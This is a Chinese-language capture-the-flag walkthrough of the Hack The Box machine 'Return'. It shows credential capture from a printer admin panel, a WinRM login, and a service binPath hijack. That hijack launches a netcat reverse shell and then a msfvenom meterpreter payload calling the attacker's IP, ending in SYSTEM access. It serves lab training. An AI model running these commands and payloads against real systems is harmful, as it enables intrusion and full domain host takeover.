

## Return
### 总结 Metasploit Framework（MSF） 是一个开源的 渗透测试与漏洞利用框架（penetration testing framework）
```
Server Operators：可以用 sc.exe config 改服务路径
[1]
[★]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.93 LPORT=1337 -f exe > shell.exe
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload shell.exe
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[2]
[★]$ msfconsole
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.14.93
LHOST => 10.10.14.93
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 1337
LPORT => 1337
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.14.93:1337

(Meterpreter 3)(C:\Windows\system32) > ps
(Meterpreter 4)(C:\Windows\system32) > migrate 332
(Meterpreter 4)(C:\Windows\system32) > shell
```
```
[★]$ ports=$(nmap -p- --min-rate=1000 -T4 10.129.10.164 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
[★]$ nmap -p$ports -sV -sC 10.129.10.164
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-03 06:56:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49909/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-02-03T06:57:26
|_  start_date: N/A
|_clock-skew: 18m27s

```
```
[★]$ echo '10.129.10.164 return.local0' | sudo tee -a /etc/hosts
10.129.10.164 return.local0
```
#### Nmap输出显示目标是一台Windows机器，端口为80 （Internet Information Services）和445（SMB）和5985 （Windows Remote Management）。
```
[★]$ enum4linux -A 10.129.10.164
<SNIP>
====================================================
|    Domain Information via RPC for 10.129.10.164    |
 ====================================================
[+] Domain: RETURN
[+] Domain SID: S-1-5-21-3750359090-2939318659-876128439
[+] Membership: domain member
<\SNIP>
```
#### 这表明主机是RETURN域的一部分。SMB不允许NULL或guest会话，所以可以把我们的注意力转向网站。
#### IIS 

#### 这显示了一个打印机管理面板，就像你在企业佳能、施乐和爱普生多功能打印机上看到的那样设备。导航到设置显示了用户名和域名。
### Foothold
#### 这些设备存储LDAP和SMB凭据，以便打印机从Active中查询用户列表目录，并且能够将扫描的文件保存到用户驱动器。这些配置页面通常允许要指定的域控制器或文件服务器。让我们在端口389 （LDAP）上建立一个侦听器，并指定我们的tun0服务器地址字段中的IP地址。
#### 翻译为在Server Address :10.10.14.93
```
[★]$ sudo nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.93] from (UNKNOWN) [10.129.10.164] 60925
0*`%return\svc-printer�
                       1edFg43012!!
```
#### 接收到连接，并显示svc-printer的凭据。从portscan我们看到WinRM端口打开。让我们使用evil-winrm工具连接到该服务。
```
[★]$ evil-winrm -i 10.129.10.164 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```
### Privilege Escalation
#### 枚举组成员关系显示svc-printer是Server Operators组的一部分
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 12:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> 
```
#### 我们可以在这里了解更多关于这个组织的信息。该组的成员可以启动/停止系统服务。让我们修改服务二进制路径，获取反向shell。
https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#bkmk-serveroperators
```
[★]$ wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe

*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc64.exe
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.93 1234"
[SC] ChangeServiceConfig SUCCESS

```
#### 在端口1234上启动一个侦听器，并发出以下命令以获取反向shell
```
[★]$ nc -lvnp 1234
listening on [any] 1234 ...
```
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss

```
```
[★]$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.93] from (UNKNOWN) [10.129.10.164] 51285
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
#### 上面得到的壳是不稳定的，可能会在几秒钟后死亡。更有效的方法是获得一个仪表外壳，然后快速迁移到一个更稳定的过程。
#### 我们可以使用msfvenom为Windows生成一个 msfvenom 反向shell可执行负载文件远程主机
```
[★]$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.93 LPORT=1337 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
[★]$ ls
shell.exe 
```
#### 使用当前的Evil-WinRM shell，可执行文件可以上传到远程主机上
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload shell.exe
```
#### 接下来，我们将使用Metasploit控制台为Windows上的反向shell会话配置侦听器目标。
```
[★]$ msfconsole
Metasploit tip: Use the resource command to run commands from a file
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v6.4.71-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 431 post       ]
+ -- --=[ 1669 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> 


```
#### 选择multi/handler漏洞利用模块，该模块用于侦听来自破坏系统。
#### 将有效负载设置为windows/meterpreter/reverse tcp，允许反向tcp连接在攻击者的机器和目标之间建立。
```
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.14.93
LHOST => 10.10.14.93
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 1337
LPORT => 1337
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.14.93:1337 

```
#### 使用现有的shell，让我们修改一个服务二进制路径来获得一个反向shell
```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss


```
#### 获得meterpreter会话后，使用ps命令列出远程上正在运行的进程盒子。
#### 我们已经在端口1337上运行了Metasploit侦听器，所以现在让我们向获取反壳。
```
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
[*] Started reverse TCP handler on 10.10.14.93:1337 
[*] Sending stage (177734 bytes) to 10.129.10.164
[*] Meterpreter session 2 opened (10.10.14.93:1337 -> 10.129.10.164:58915) at 2026-02-03 01:33:42 -0600

(Meterpreter 3)(C:\Windows\system32) > ps //这里不能输入whoami

Process List
============

 PID   PPID  Name         Arch  Session  User               Path
 ---   ----  ----         ----  -------  ----               ----
 0     0     [System Pro
             cess]
 4     0     System       x64   0
 88    4     Registry     x64   0
 264   4     smss.exe     x64   0
 332   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 372   364   csrss.exe    x64   0
 480   364   wininit.exe  x64   0
 488   472   csrss.exe    x64   1
 544   472   winlogon.ex  x64   1        NT AUTHORITY\SYST  C:\Windows\System3
             e                           EM                 2\winlogon.exe
 560   1092  sc.exe       x64   0        RETURN\svc-printe  C:\Windows\System3
                                         r                  2\sc.exe
 620   480   services.ex  x64   0
             e
 636   480   lsass.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\lsass.exe
 720   3968  conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\conhost.exe
 728   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 824   620   svchost.exe  x64   0
 836   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 852   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 856   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 884   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 892   620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 900   620   shell.exe    x86   0        NT AUTHORITY\SYST  C:\Users\svc-print
                                         EM                 er\Documents\shell
                                                            .exe
 944   620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1012  544   dwm.exe      x64   1        Window Manager\DW  C:\Windows\System3
                                         M-1                2\dwm.exe
 1036  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1044  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1052  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1060  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1072  620   svchost.exe  x64   0
 1092  856   wsmprovhost  x64   0        RETURN\svc-printe  C:\Windows\System3
             .exe                        r                  2\wsmprovhost.exe
 1152  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1192  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 1292  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1376  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1440  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 1444  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1464  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1468  620   vm3dservice  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
             .exe                        EM                 2\vm3dservice.exe
 1536  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1612  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1624  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1636  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1644  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1676  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1712  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1788  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1856  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1876  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1904  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1912  620   VGAuthServi  x64   0        NT AUTHORITY\SYST  C:\Program Files\V
             ce.exe                      EM                 Mware\VMware Tools
                                                            \VMware VGAuth\VGA
                                                            uthService.exe
 1920  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 1936  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1956  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1968  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 2012  620   ismserv.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\ismserv.exe
 2072  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2100  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2132  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 2180  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2340  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 2352  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2364  620   dns.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dns.exe
 2408  620   dfsrs.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dfsrs.exe
 2432  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 2460  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2472  620   Microsoft.A  x64   0        NT AUTHORITY\SYST  C:\Windows\ADWS\Mi
             ctiveDirect                 EM                 crosoft.ActiveDire
             ory.WebServ                                    ctory.WebServices.
             ices.exe                                       exe
 2488  620   vmtoolsd.ex  x64   0        NT AUTHORITY\SYST  C:\Program Files\V
             e                           EM                 Mware\VMware Tools
                                                            \vmtoolsd.exe
 2768  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 2904  480   fontdrvhost  x64   0        Font Driver Host\  C:\Windows\System3
             .exe                        UMFD-0             2\fontdrvhost.exe
 2908  544   fontdrvhost  x64   1        Font Driver Host\  C:\Windows\System3
             .exe                        UMFD-1             2\fontdrvhost.exe
 2988  620   spoolsv.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\spoolsv.exe
 3032  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 3040  620   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 3048  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 3192  620   dfssvc.exe   x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dfssvc.exe
 3264  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 3608  1276  cmd.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\cmd.exe
 3716  856   WmiPrvSE.ex  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
             e                           ORK SERVICE        2\wbem\WmiPrvSE.ex
                                                            e
 3812  620   dllhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\dllhost.exe
 3824  560   conhost.exe  x64   0        RETURN\svc-printe  C:\Windows\System3
                                         r                  2\conhost.exe
 3968  1104  cmd.exe      x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\cmd.exe
 3988  3608  conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\conhost.exe
 4080  620   msdtc.exe    x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\msdtc.exe
 4236  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 4368  544   LogonUI.exe  x64   1        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\LogonUI.exe
 4552  620   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 5108  620   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe

(Meterpreter 3)(C:\Windows\system32) > 
```
#### 选择一个作为NT AUTHORITY\SYSTEM运行的适当进程并迁移到它。在这种情况下，我们将迁移到PID为332的进程
```
(Meterpreter 4)(C:\Windows\system32) > migrate 332
[*] Migrating from 4524 to 332...
[*] Migration completed successfully.
(Meterpreter 4)(C:\Windows\system32) > shell
Process 4228 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
#### 终于可以输入whoami了
```
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3A0C-428E

 Directory of C:\Users

05/26/2021  12:51 AM    <DIR>          .
05/26/2021  12:51 AM    <DIR>          ..
09/27/2021  03:40 AM    <DIR>          Administrator
05/26/2021  12:50 AM    <DIR>          Public
05/26/2021  12:51 AM    <DIR>          svc-printer
               0 File(s)              0 bytes
               5 Dir(s)   8,822,185,984 bytes free

C:\Users>type svc-printer\Desktop\user.txt
C:\Users\Administrator\Desktop>type root.txt

C:\Users>exit
exit
(Meterpreter 4)(C:\Windows\system32) > exit
[*] Shutting down session: 4

[*] 10.129.10.164 - Meterpreter session 4 closed.  Reason: Died
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exit
```
